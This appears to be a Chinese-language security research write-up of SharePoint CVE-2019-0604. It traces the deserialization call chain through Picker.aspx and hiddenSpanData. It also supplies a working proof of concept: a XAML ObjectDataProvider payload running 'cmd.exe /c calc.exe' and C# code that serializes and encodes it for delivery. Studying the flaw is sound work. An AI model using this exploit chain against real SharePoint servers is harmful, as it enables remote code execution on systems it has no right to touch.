# SharePoint CVE-2019-0604

0604是一个xmlserializer的type可控造成的RCE。

# 产生原因

`Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.DecodeEntityInstanceId(string encodedId)`，在ZDI的分析中给出了一张gif动态图很好的描述了type是由encodedId控制的。



分析这个方法在哪些地方被调用



三个类分别对应有aspx文件

- Microsoft.SharePoint.ApplicationPages.ActionRedirectPage
`/_layouts/15/ActionRedirect.aspx`

- Microsoft.SharePoint.ApplicationPages.DownloadExternalData
  `/_layouts/15/downloadexternaldata.aspx`
  
- Microsoft.SharePoint.Portal.WebControls.ProfileRedirect
`/_layouts/15/TenantProfileAdmin/profileredirect.aspx`

对应的参数也都是从request传入，但是因为get传参，通过HexEncode之后会超出http协议的长度限制，所以漏洞发现者的目光转向了		`Microsoft.SharePoint.WebControls.ItemPicker.ValidateEntity(PickerEntity)`



传入DecodeEntityInstanceId()的参数来自于pe.Key，而ValidateEntity(PickerEntity pe)方法在				Microsoft.SharePoint.WebControls.EntityEditor.Validate() 被调用



可见pe来自于this.Entities属性，这个属性又取决于自身的m_listOrder字段



m_listOrder在Validate()被自身`this.m_listOrder = this.m_listOrderTemp`覆盖，最终由LoadPostData()赋值



在LoadPostData中先this.ParseSpanData(text)解析参数，赋值m_listOrderTemp，然后进行this.Validate()反序列化



而EntityEditor类的LoadPostData的方法是对IPostBackDataHandler接口的实现，在POST时会自动调用LoadPostData方法。再来看ParseSpanData()，在LoadPostData中传入`string text = EntityEditor.StrEatUpNbsp(this.HiddenSpanData.Value);`HiddenSpanData的值。



传入的值为spans，经过分割为数组最后赋值为新的pickerEntity3，key为text5，而text5就是来自于spans。那么pe.Key就可控了。


EntityEditor类有一个继承类EntityEditorWithPicker，该类还有继承类ItemPicker



接下来寻找ItemPicker的web控件。作者找到了 /_layouts/15/Picker.aspx，位于Microsoft.SharePoint.ApplicationPages.Picker



接收一个PickerDialogType的参数来实例化PickerDialog控件。这里可以用下面两个类

- Microsoft.SharePoint.WebControls.ItemPickerDialog
- Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog

因为这两个类的构造函数中都用到了ItemPicker



并且表单中有hiddenSpanData



所以这里可以RCE了。

# PoC构造

把`Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.DecodeEntityInstanceId(string encodedId)`所在的dll拷出来放到vs中引用，然后代码如下

```xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd.exe</System:String>
            <System:String>/c calc.exe</System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

然后

```csharp
using System;
using System.Data.Services.Internal;
using System.IO;
using System.Text;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;

namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            object[] objs = new object[1];
            objs[0] = Payload("1.xml");
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            XmlSerializer xmlSerializer = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
            xmlSerializer.Serialize(writer, objs[0]);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);
            string payload = Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId(objs);
            Console.WriteLine(payload);
            Console.ReadKey();
        }
        public static object Payload(string filepath)
        {
            ExpandedWrapper<XamlReader, ObjectDataProvider> eobj = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            eobj.ProjectedProperty0 = new ObjectDataProvider();
            eobj.ProjectedProperty0.ObjectInstance = new XamlReader();
            eobj.ProjectedProperty0.MethodName = "Parse";
            eobj.ProjectedProperty0.MethodParameters.Add(File.ReadAllText(filepath));
            return eobj;
        }
    }
}
```

用ExpandedWrapper包装XamlReader和ObjectDataProvider，然后用EncodeEntityInstanceId编码，通过hiddenSpanData发送出去


然后这不就来了吗



# 正向捋一捋流程

1. Picker.aspx接收参数实例化PickerDialog控件。
2. PickerDialog有一个子类：ItemPickerDialog，其构造函数用到了ItemPicker
3. ItemPicker继承自EntityEditorWithPicker，EntityEditorWithPicker又继承自EntityEditor
4. EntityEditor实现IPostBackDataHandler接口LoadPostData()
5. 在LoadPostData中ParseSpanData解析hiddenSpanData，赋值m_listOrderTemp控制pe.Key
6. 然后进入Validate，循环遍历m_listOrderTemp强转PickerEntity进入Microsoft.SharePoint.Portal.WebControls.ItemPicker.ValidateEntity(PickerEntity)
7. ValidateEntity将pe.Key传入DecodeEntityInstanceId
8. DecodeEntityInstanceId从pe.Key拿到type，type可控导致反序列化RCE

# ysoserial.net中的bug

使用yso生成的payload并不起作用，本地复现报错xaml格式问题，发现是因为在他的xaml中多写了两个大括号。已经给作者提了pr https://github.com/pwntester/ysoserial.net/pull/107

